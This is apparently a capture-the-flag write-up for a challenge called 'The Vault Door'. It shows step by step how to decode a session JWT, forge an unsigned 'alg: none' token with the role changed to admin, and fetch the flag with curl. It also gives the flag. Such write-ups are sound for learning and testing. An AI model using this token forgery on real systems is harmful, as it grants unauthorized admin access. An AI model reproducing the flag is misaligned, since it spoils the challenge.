




# [05] THE VAULT DOOR

## Challenge

> NexaVault is an internal credential management portal used by engineering teams.
>
> Only administrators can open the Vault — a restricted area holding classified project data.
>
> You have been given access to create an account. That's it.

URL: `https://ctf.fampay.co/famctf/`

## Flag

```text
FAM{jwt_4lg_n0n3_byp4ss_gr4nt3d}
```

## Short Summary

After logging in, the app stores an `nx_access` JWT. The token payload contains the username and role. The admin page checks `role=admin`, but the server accepts a JWT with `alg: none`, so the signature can be removed and the role can be changed from `user` to `admin`.

## Steps

### 1. Register and login

Create an account from:

```text
https://ctf.fampay.co/famctf/register
```

Then login:

```text
https://ctf.fampay.co/famctf/login
```

After login, the browser receives an `nx_access` cookie.



### 2. Decode the JWT

Example token payload:

```json
{
  "sub": "qwerty123",
  "role": "user"
}
```

Browser console:

```js
const token = document.cookie
  .split("; ")
  .find(x => x.startsWith("nx_access="))
  .split("=")[1];

JSON.parse(atob(token.split(".")[1]));
```

Or with Python:

```bash
python3 - <<'PY'
import base64, json

token = "PASTE_NX_ACCESS_JWT"
header, payload, signature = token.split(".")
for part in (header, payload):
    print(json.dumps(json.loads(base64.urlsafe_b64decode(part + "=" * (-len(part) % 4))), indent=2))
PY
```



### 3. Confirm user access is denied

```bash
USER_TOKEN='PASTE_ORIGINAL_NX_ACCESS_JWT'

curl -i 'https://ctf.fampay.co/famctf/admin' \
  -H "Cookie: nx_access=${USER_TOKEN}"
```

Result:

```text
HTTP/2 403
Access Denied
Administrator clearance is required to access the Vault.
```


### 4. Forge an unsigned admin JWT

Create a JWT with:

```json
{
  "alg": "none",
  "typ": "JWT"
}
```

and:

```json
{
  "sub": "qwerty123",
  "role": "admin"
}
```

Generate it:

```bash
python3 evidence/create_admin_none_jwt.py qwerty123
```

Output:

```text
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiJxd2VydHkxMjMiLCJyb2xlIjoiYWRtaW4ifQ.
```



### 5. Open the vault

```bash
ADMIN_TOKEN='eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiJxd2VydHkxMjMiLCJyb2xlIjoiYWRtaW4ifQ.'

curl -sS 'https://ctf.fampay.co/famctf/admin' \
  -H "Cookie: nx_access=${ADMIN_TOKEN}" \
  | rg 'FAM\\{'
```

Output:

```text
FAM{jwt_4lg_n0n3_byp4ss_gr4nt3d}
```



## Evidence Files

- `evidence/challenge_url.txt`
- `evidence/user_jwt_decoded.txt`
- `evidence/admin_denied_user_token.txt`
- `evidence/forged_admin_token.txt`
- `evidence/vault_success_forged_token.txt`
- `evidence/create_admin_none_jwt.py`
